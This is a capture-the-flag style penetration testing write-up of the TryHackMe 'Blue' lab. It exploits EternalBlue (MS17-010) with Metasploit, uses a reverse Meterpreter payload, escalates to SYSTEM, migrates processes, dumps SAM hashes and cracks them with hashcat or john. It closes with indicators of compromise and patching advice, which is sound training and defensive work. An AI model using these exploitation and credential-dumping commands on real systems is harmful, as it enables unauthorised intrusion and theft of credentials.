








# 🛡️ Penetration Testing Report

# TryHackMe - Blue

> **Platform:** TryHackMe  
> **Room:** Blue  
> **Difficulty:** Easy  
> **Category:** Windows | SMB | Vulnerability Assessment | Exploitation | Privilege Escalation  
> **Author:** Shubham Reddy  
> **Assessment Date:** 29 July 2026

---

# Executive Summary

This assessment focused on identifying and exploiting a vulnerable Windows machine exposed through the Server Message Block (SMB) service. The objective was to simulate a real-world penetration test by following a structured methodology: reconnaissance, service enumeration, vulnerability identification, exploitation, post-exploitation, and credential analysis.

During enumeration, the SMB service on port **445** was identified as the primary attack surface. Further analysis using Nmap vulnerability scripts confirmed that the host was vulnerable to **MS17-010 (EternalBlue)**, a critical remote code execution vulnerability affecting Microsoft SMBv1.

The vulnerability was successfully exploited using the Metasploit Framework, resulting in a Meterpreter session with **NT AUTHORITY\SYSTEM** privileges. Post-exploitation activities included process migration, credential dumping, and offline password hash analysis.

This exercise demonstrates how a single unpatched service can lead to complete system compromise and highlights the importance of vulnerability management, timely patching, and disabling legacy protocols such as SMBv1.

---

# Scope

| Item | Details |
|------|---------|
| Platform | TryHackMe |
| Target Machine | Blue |
| Operating System | Microsoft Windows |
| Assessment Type | Black Box Penetration Test |
| Objective | Obtain SYSTEM-level access |
| Methodology | Reconnaissance → Enumeration → Exploitation → Post-Exploitation |

---

# Assessment Objectives

The primary objectives of this assessment were:

- Identify exposed services on the target host.
- Enumerate service versions and operating system details.
- Detect publicly known vulnerabilities.
- Exploit the identified vulnerability.
- Obtain SYSTEM-level access.
- Perform post-exploitation activities.
- Assess the overall security impact.
- Recommend mitigation strategies.

---

# Tools Used

| Tool | Purpose |
|------|---------|
| Nmap | Host discovery, port scanning, service enumeration |
| Nmap NSE Scripts | Vulnerability Detection |
| Metasploit Framework | Exploitation |
| Meterpreter | Post-Exploitation |
| Windows Command Prompt | System Verification |
| Hashcat / John the Ripper | Offline Password Cracking |

---

# Assessment Methodology

The assessment followed a structured penetration testing workflow based on industry best practices.

<p align="center">


Each phase builds on the findings from the previous stage, ensuring a systematic approach while minimizing unnecessary interaction with the target.

---

# Target Information

| Item | Value |
|------|------|
| Target IP | 10.48.171.218 |
| Hostname | JON-PC |
| Operating System | Microsoft Windows |
| Primary Attack Surface | SMB (TCP/445) |
| Assessment Environment | TryHackMe Lab |

---

# Skills Demonstrated

- Network Enumeration
- Windows Enumeration
- Vulnerability Assessment
- SMB Security Analysis
- Exploit Validation
- Metasploit Framework
- Meterpreter
- Windows Privilege Escalation
- Process Migration
- Credential Dumping
- Password Hash Cracking
- Risk Assessment
- Security Reporting

# 🔍 Enumeration

## Objective

The objective of the enumeration phase was to identify exposed services, determine the target operating system, gather version information, and discover potential vulnerabilities that could be leveraged during exploitation.

Rather than attempting exploitation immediately, I first collected as much information as possible about the target. This approach helps reduce guesswork and ensures that any exploit selected is appropriate for the identified services.

---

# Initial Port Scan

A TCP SYN scan was performed using **Nmap** with service detection, default enumeration scripts, and vulnerability detection scripts enabled.

### Command

```bash
nmap -v -sV -sC -Pn --script vuln -oN blue.nmap 10.48.171.218
```

### Nmap Flag Breakdown

| Flag | Purpose |
|------|---------|
| `-v` | Enables verbose output to display scan progress. |
| `-sV` | Detects service versions running on open ports. |
| `-sC` | Executes Nmap's default NSE scripts for basic service enumeration. |
| `-Pn` | Treats the target as online and skips ICMP host discovery. |
| `--script vuln` | Executes vulnerability detection scripts against discovered services. |
| `-oN blue.nmap` | Saves the scan results in normal text format for later analysis. |

### Scan Screenshot

<p align="center">

</p>

*Figure 1: Initial Nmap scan using version detection and vulnerability scripts.*

---

# Enumeration Findings

The scan identified several Microsoft Windows services exposed on the network.

| Port | Service | Version | Purpose |
|------|----------|---------|---------|
| 135 | MSRPC | Microsoft Windows RPC | Remote Procedure Call |
| 139 | NetBIOS-SSN | Microsoft Windows NetBIOS | SMB Communication |
| 445 | Microsoft-DS | Microsoft Windows SMB | File Sharing |
| 3389 | RDP | tcpwrapped | Remote Desktop |
| 49152 | MSRPC | Microsoft Windows RPC | Dynamic RPC |
| 49153 | MSRPC | Microsoft Windows RPC | Dynamic RPC |
| 49154 | MSRPC | Microsoft Windows RPC | Dynamic RPC |
| 49160 | MSRPC | Microsoft Windows RPC | Dynamic RPC |

### Service Detection Screenshot

<p align="center">

</p>

*Figure 2: Service detection identifying SMB, RPC, and RDP services.*

---

# Analysis

The Nmap scan indicated that the target was a Windows system exposing several RPC services alongside SMB and Remote Desktop Protocol (RDP).

Although multiple services were available, **SMB running on TCP port 445** immediately stood out as the most promising attack surface because:

- SMB is frequently targeted in enterprise environments.
- Older Windows systems often expose SMBv1.
- Several critical vulnerabilities have historically affected SMB.
- The NSE vulnerability scripts specifically highlighted SMB for further investigation.

At this stage, exploitation was intentionally avoided until the vulnerability could be confirmed.

---

# Operating System Identification

Nmap successfully fingerprinted the target host.

| Property | Value |
|-----------|-------|
| Operating System | Microsoft Windows |
| Hostname | JON-PC |
| Workgroup | WORKGROUP |

These findings matched the exposed services and confirmed that the system was likely running a Windows desktop operating system.

---

# Vulnerability Assessment

To identify publicly known vulnerabilities, Nmap's NSE vulnerability scripts were executed against the discovered services.

The scan confirmed that the SMB service was vulnerable to **MS17-010**, commonly known as **EternalBlue**.

### Vulnerability Details

| Item | Value |
|------|-------|
| Vulnerability | MS17-010 |
| CVE | CVE-2017-0143 |
| Severity | Critical |
| Protocol | SMBv1 |
| Impact | Remote Code Execution |
| Authentication Required | No |
| Status | Vulnerable |

### Vulnerability Screenshot

<p align="center">

</p>

*Figure 3: Nmap confirming that the target is vulnerable to MS17-010 (EternalBlue).*

---

# Technical Analysis

The **smb-vuln-ms17-010** NSE script reported that the target was vulnerable to **CVE-2017-0143**, a critical flaw in Microsoft's SMBv1 implementation.

This vulnerability allows a remote attacker to execute arbitrary code without valid credentials by sending specially crafted SMB packets to the target.

Since the host accepted SMB connections over TCP port **445** and was confirmed vulnerable, it became the primary attack vector for the remainder of the assessment.

---

# Enumeration Summary

| Observation | Result |
|-------------|--------|
| Live Host Identified | ✅ |
| Windows Host Confirmed | ✅ |
| SMB Service Identified | ✅ |
| SMB Version Assessed | ✅ |
| MS17-010 Detected | ✅ |
| Exploitation Path Identified | ✅ |

---

# Key Takeaways

- Enumeration provided sufficient information to identify the target operating system and exposed services.
- SMB (TCP/445) represented the highest-risk service based on both version information and vulnerability assessment.
- Nmap's NSE scripts successfully confirmed the presence of a critical remote code execution vulnerability.
- Validating vulnerabilities before exploitation reduced unnecessary trial-and-error and provided confidence in selecting the appropriate exploit.

# 💥 Exploitation

## Objective

The enumeration phase confirmed that the target was vulnerable to **MS17-010 (CVE-2017-0143)**, also known as **EternalBlue**. The objective of this phase was to validate the finding by safely exploiting the vulnerability and obtaining remote access to the Windows system.

The exploitation process was performed using the **Metasploit Framework**, a widely used penetration testing platform that provides tested exploit modules and payloads for security assessments.

---

# Exploit Selection

Metasploit was launched to identify an exploit module that matched the vulnerability discovered during enumeration.

### Launch Metasploit

```bash
msfconsole
```

<p align="center">

</p>

*Figure 4: Starting the Metasploit Framework.*

---

## Searching for the Exploit Module

The search functionality was used to locate exploit modules related to **MS17-010**.

### Command

```text
search ms17
```

Among the available modules, the **MS17-010 EternalBlue** exploit was selected because it specifically targets the vulnerability identified during the Nmap scan.

### Selected Module

```text
use exploit/windows/smb/ms17_010_eternalblue
```

<p align="center">

</p>

*Figure 5: Searching for available MS17-010 exploit modules.*

---

# Exploit Configuration

Before executing the exploit, the module configuration was reviewed to identify the required parameters.

### Command

```text
show options
```

The following options were configured:

| Option | Description |
|---------|-------------|
| RHOSTS | Target IP address |
| PAYLOAD | Reverse Meterpreter payload |

The payload was configured as:

```text
set payload windows/x64/meterpreter/reverse_tcp
```

Finally, the exploit was executed.

```text
run
```

<p align="center">

</p>

*Figure 6: Configuring the EternalBlue exploit module.*

---

# Successful Exploitation

The exploit completed successfully and established a **Meterpreter** session with the target machine.

The successful session confirmed that remote code execution had been achieved through the vulnerable SMB service.

<p align="center">

</p>

*Figure 7: Successful Meterpreter session established.*

---

# Initial Validation

After gaining access, several verification commands were executed to confirm that the target had been compromised successfully.

Typical validation steps included:

```text
getuid
```

```text
sysinfo
```

```text
shell
```

```cmd
hostname
```

```cmd
whoami
```

These commands verified the identity of the compromised host, confirmed the operating system, and validated the current privilege level before proceeding to post-exploitation activities.

---

# Technical Analysis

The EternalBlue exploit takes advantage of a flaw in Microsoft's implementation of the SMBv1 protocol. By sending specially crafted SMB packets, an attacker can trigger a memory corruption vulnerability that allows arbitrary code to execute on the target system without prior authentication.

Because the target machine had not been patched against **MS17-010**, the exploit successfully established a remote session, providing full control of the system for further security assessment.

This vulnerability became widely known after its use in the **WannaCry** ransomware outbreak, highlighting the importance of timely patch management and the risks associated with legacy protocols.

---

# Exploitation Summary

| Finding | Result |
|----------|--------|
| Vulnerability Confirmed | ✅ |
| Exploit Module Loaded | ✅ |
| Target Configured | ✅ |
| Payload Configured | ✅ |
| Exploit Executed | ✅ |
| Meterpreter Session Established | ✅ |
| Remote Code Execution Achieved | ✅ |

---

# Risk Assessment

| Finding | Severity | Impact |
|----------|----------|--------|
| SMBv1 Enabled | High | Legacy protocol with known vulnerabilities |
| MS17-010 Vulnerability | Critical | Remote Code Execution |
| Unauthenticated Exploitation | Critical | No credentials required |
| Successful Meterpreter Session | Critical | Full system compromise |

---

# Key Takeaways

- The vulnerability identified during enumeration was successfully validated through exploitation.
- Proper service enumeration ensured that the selected exploit matched the target environment.
- A Meterpreter session provided a stable interface for post-exploitation activities.
- The assessment demonstrated how an unpatched SMB service can lead to complete compromise of a Windows host.
- Validating vulnerabilities in a controlled environment helps organizations understand the real-world impact of missing security updates.

# 🖥️ Post-Exploitation

## Objective

Following successful exploitation, the objective shifted from gaining access to assessing the overall impact of the compromise. The post-exploitation phase focused on verifying privilege levels, establishing a more stable session, gathering system information, extracting credentials, and evaluating what an attacker could achieve after compromising the host.

---

# Privilege Verification

After establishing the initial Meterpreter session, the first step was to verify the current privilege level.

### Commands

```text
getuid
```

```text
getsystem
```

The `getsystem` command attempts several built-in privilege escalation techniques available within Meterpreter. In this case, the command successfully confirmed SYSTEM-level privileges.

### Verification

```cmd
whoami
```

Output

```text
NT AUTHORITY\SYSTEM
```

Obtaining **NT AUTHORITY\SYSTEM** represents the highest privilege level available on a Windows workstation, providing unrestricted access to the operating system.

📷 **Screenshot**

<p align="center">

</p>

*Figure 8: SYSTEM privileges successfully obtained.*

---

# System Information Gathering

With administrative privileges confirmed, additional information about the compromised system was collected.

### Commands

```text
sysinfo
```

```text
getuid
```

The collected information included:

- Computer name
- Operating system version
- System architecture
- Current user context
- Meterpreter session information

Collecting this information helps validate the target environment and ensures that subsequent actions are compatible with the host.

---

# Process Enumeration

Windows runs hundreds of processes simultaneously, but not all are equally stable.

The running processes were reviewed to identify a reliable SYSTEM-owned process for migration.

### Command

```text
ps
```

The process list included:

- Process ID (PID)
- Process Name
- Session
- User Account
- Architecture

Reviewing the process list allows the operator to identify long-running processes that reduce the likelihood of session termination.

📷 **Screenshot**

<p align="center">

</p>

*Figure 9: Enumerating active Windows processes.*

---

# Process Migration

Initially, the Meterpreter session executes within the exploited process.

If that process terminates, the session is lost.

To improve session stability, the Meterpreter session was migrated into a trusted SYSTEM-owned process.

### Command

```text
migrate <PID>
```

Successful migration provides:

- Improved session stability
- Lower chance of unexpected termination
- Continued SYSTEM privileges

This is a common post-exploitation technique during penetration tests.

📷 **Screenshot**

<p align="center">

</p>

*Figure 10: Migrating Meterpreter into a stable SYSTEM process.*

---

# Credential Dumping

With SYSTEM privileges established, Windows password hashes were extracted from the Security Account Manager (SAM) database.

### Command

```text
hashdump
```

The output contained NTLM password hashes for local user accounts.

The assessment identified a non-default local account named:

```
Jon
```

📷 **Screenshot**

<p align="center">

</p>

*Figure 11: Extracting local password hashes.*

---

# Offline Password Analysis

The extracted NTLM hash was saved locally and analyzed using an offline password cracking tool.

Example:

```bash
hashcat -m 1000 hashes.txt rockyou.txt
```

or

```bash
john --wordlist=rockyou.txt hashes.txt
```

The password hash was successfully recovered, demonstrating that the account used a weak password that could be cracked using a common wordlist.

> **Note:** The recovered password is intentionally omitted from this public report. The objective is to demonstrate the assessment methodology rather than disclose challenge-specific credentials.

---

# Security Impact

Successfully dumping password hashes demonstrates how SYSTEM-level compromise extends beyond a single user account.

An attacker with administrative privileges could potentially:

- Access additional local user accounts.
- Reuse credentials on other systems.
- Move laterally within a network.
- Escalate privileges across the environment.
- Maintain long-term persistence.

This highlights why protecting privileged accounts and enforcing strong password policies are essential components of Windows security.

---

# Post-Exploitation Summary

| Activity | Status |
|----------|--------|
| Meterpreter Session Established | ✅ |
| SYSTEM Privileges Verified | ✅ |
| System Information Collected | ✅ |
| Running Processes Enumerated | ✅ |
| Process Migration Completed | ✅ |
| Password Hashes Extracted | ✅ |
| Offline Password Analysis Performed | ✅ |

---

# Indicators of Compromise (IoCs)

The following activities could indicate a successful compromise:

- Unexpected Meterpreter network connections
- Unauthorized SYSTEM-level command execution
- Process migration into legitimate Windows processes
- Access to the Security Account Manager (SAM)
- Password hash extraction
- Suspicious outbound reverse TCP sessions

Monitoring these indicators can help security teams detect post-exploitation activity before attackers establish persistence.

---

# Defensive Recommendations

The findings from this phase reinforce several defensive best practices:

- Apply Microsoft's MS17-010 security update.
- Disable SMBv1 wherever possible.
- Enforce strong password policies.
- Protect LSASS and SAM from unauthorized access.
- Restrict administrative privileges using the principle of least privilege.
- Deploy Endpoint Detection and Response (EDR) solutions.
- Monitor process migration and credential dumping activity.
- Enable centralized logging and continuous security monitoring.

---

# Key Takeaways

- Exploitation alone is only the beginning of an attack.
- SYSTEM privileges provide unrestricted access to the Windows operating system.
- Process migration improves session reliability during assessments.
- Credential dumping illustrates the broader impact of administrative compromise.
- Strong patch management and credential protection remain critical defenses against legacy vulnerabilities such as MS17-010.